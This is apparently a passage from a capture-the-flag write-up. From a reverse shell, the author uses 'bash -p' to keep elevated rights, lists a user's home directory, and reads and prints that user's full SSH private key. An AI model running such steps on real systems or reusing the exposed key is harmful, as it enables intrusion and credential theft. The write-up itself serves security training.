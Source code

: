 
![](/img/articles/realgsmoveinsilencelikelasagna/red_16.gif)


The "-p" argument of bash allow conserving rights. Otherwise, we would have had a bash as __www-data__, not really interesting in our case.

Let's see if the user __odie__ got an SSH private key. It would be more convenient with a SSH shell, and more discreet.

```bash
rev-shell $ ls -la /home/odie/
total 64d
drwxr-xr-x 5 odie odie  4096 Dec 27 05:50 .
drwxr-xr-x 3 root root  4096 Dec 26 20:18 ..
-rw------- 1 odie odie  6335 Dec 27 05:37 .bash_history
-rw-r--r-- 1 odie odie   220 Dec 26 20:18 .bash_logout
-rw-r--r-- 1 odie odie  3526 Dec 26 20:18 .bashrc
drwx------ 3 odie odie  4096 Dec 27 05:09 .cache
drwx------ 4 odie odie  4096 Dec 27 05:09 .local
-rw-r--r-- 1 odie odie   675 Dec 26 20:18 .profile
drwxr-xr-x 2 odie odie  4096 Dec 27 05:46 .ssh
-rw------- 1 odie odie 10478 Dec 27 05:40 .viminfo
-rwxr-xr-x 1 odie odie   934 Dec 27 05:08 project.py

rev-shell $ cat /home/odie/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1VMOMwtecWKwr4SnW41bi7ALoelNH6mQ2s5jNlbwSa6iBCmG
aOvZZXNc6JrNZU/TMHKgigpxwt1DKWQ9UvWi3i6X/CpVgjrv3z/2VPhPO4GJU0JX
Q7NWpYv4s4ULgUhSIKxcnTvof6fxLAu9NxCGiLq6tL5ZG3naN9ITDK9MhFgrKYMH
/jTsiqdv/CkVhVK3EZHaKgqcJPxhkNInxM1S8mblPUrYQD/9rL8iq1YQyHhRddjU
zm1BT7j3vE8ukxs7VDeVgYEFS0HTRfyifQMLb+oa/GbMnoi73if9H9gVFMPdO6va
jyb5KUMB59/gheaFVEF5FWrQH3NNbnSX46SQIwIDAQABAoIBAQCbiBCkOrfC53d2
oLr8TxXdxJ7Wj6jBWvnX7f370msi7YYGjtgGi15XT0L//E2gfhC2E/zkaDUFJBkh
hooHgDwczc/V9G+foaTeGl5ZGSl7czhSUd4Z6BlWXbUX/fqjab0nQUPNB6691A5M
VMrB6PSNn8ccnGOPWso1RJ7K8sxQ+DrG3ry/xVxcq+ciyBeLrZjS4QJeybEjMEcl
/Dl6bGypH1uI7lo4/gwcmK220260JTCBa4zp3c930cw9ht4DcCcgY67no24BX4zi
SA7ZSNnOJRAMbNZU4369LxQOBYH66g0ndWLXz3FVNsch5yiMEFtcbW2jAvcCad01
+clQiBWBAoGBAOxF8Nl5OjZNsp0zRSj/WTxKur6uTQZkxSd2mA98wMhWwn0gdEtj
C2AIwEni9Lix/r0wIHc96QCScRIcn4X0+D4e9nLbdRWKAKcR3zNncPIcdR6ia8Hp
hNxowkB6E+nWqs86zq+dJvpuSCK3mi6MZAv42UtzyukPfrTieyKrlrDDAoGBAOci
nKcTLpLH6U4whb6/qOXJxvPhbcGSY67dswqrZC/iOVimHOEnho+L5zfEHsA1///i
FrZSnvhDSmzrTx2xGhejzNh7EM2fTNGgtbbTscdAfzUHEkTDpHntW0WomPQ3knLF
4kRCXQp1zRrTkoWQUrgJnNKEOq95ebFq/MBU7K0hAoGBALOKvmfz2Al153nPgQmT
aLMJMnk9qGhoYO0JEKoMKc7TJv3AkL7Mp9M1MzGyVjaXg7UuAi26jPmTTnrt50b7
DTzfeHV1ULaqZK6QRSUhwNEqUNGTqQD0u7JlpN8sJT+3kZrh3DfU2s7IyOYg0Pf4
VPpIAo90kUejL6yywdFpxJvTAoGASQL39RbsGVWo7xgIx46Hbb7lZ9iH8SOq9Wv2
yKIHTdDqSISAjucLbIDHEyiShikIqu3iOsmyib3H3swd+8Ub9ue5J5EIZ8uwWm+n
tw78E3LePAP1017xr8o4kLKHTm3XhwXXSbSk60728Uhv+lzypEv1C9LVLuTyegbP
vHmXIcECgYAE5+xbrXMXnRsxmQkKc4QB5eMZyvPHkq4CMNLrgwpr3b/MSGtZkwgS
pNyEYy/Ya2utPWzRFUPUOkDjMi4vYNvbJ8qztKTVRb6Nkj0b5ENLukBJ7fPIoA+R
Aw2IgvxFUXiq6D6Mw978b594/5tOmlwCR+JKK0pvYDeLLwg4kavcqA==
-----END RSA PRIVATE KEY-----
```
